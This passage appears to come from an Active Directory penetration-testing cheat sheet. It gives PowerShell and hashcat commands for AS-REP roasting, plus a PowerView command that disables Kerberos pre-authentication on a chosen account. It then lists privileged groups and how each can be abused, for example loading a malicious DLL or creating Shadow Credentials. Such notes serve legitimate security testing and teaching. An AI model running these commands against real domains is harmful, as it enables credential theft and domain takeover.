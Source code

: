 ```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

```
Invoke-ASREPRoast -Verbose | fl
```

#### Crack the hash with hashcat
```Edit the hash by inserting '23' after the $krb5asrep$, so $krb5asrep$23$.......```
```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

### Set pre-auth not required
- With enough rights (GenericWrite of GenericAll) it is possible to set pre-auth not required.

#### Enumerate permissions
```
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN>
Find-InterestingDomainAcl -ResolveGUIDS -Domain <DOMAIN> | Select-Object ObjectDN, ActiveDirectoryRights, IdentityreferenceName
```

#### Set preauth not required
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

## High Privileged Groups
- Default `Administrators`, `Domain Admins` and `Enterprise Admins` "super" groups.
- `Server Operators`, Members are allowed to log onto DCs locally and can modify services, access SMB shares, and backup files.
- `Backup Operators`, Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.
- `Print Operators`,	Members are allowed to logon to DCs locally and "trick" Windows into loading a malicious driver.
- `Hyper-V Administrators`, If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.
- `Account Operators`,	Members can modify non-protected accounts and groups in the domain.
- `Remote Desktop Users`,	Members are not given any useful permissions by default but are often granted additional rights such as Allow Login Through Remote Desktop Services and can move laterally using the RDP protocol.
- `Remote Management Users`,	Members are allowed to logon to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).
- `Group Policy Creator Owners`,	Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.
- `Schema Admins`,	Members can modify the Active Directory schema structure and can backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.
- `DNS Admins`,	Members have the ability to load a DLL on a DC but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to create a WPAD record.
- `Enterprise Key Admins`, Members have the ability to write to the “msds-KeyCredentialLink” property on a user or computer. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the principal using kerberos PKINIT.
- https://cube0x0.github.io/Pocing-Beyond-DA/

### Backup Operators
- Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. 
- Backup Operators also can log on to and shut down the computer. 
```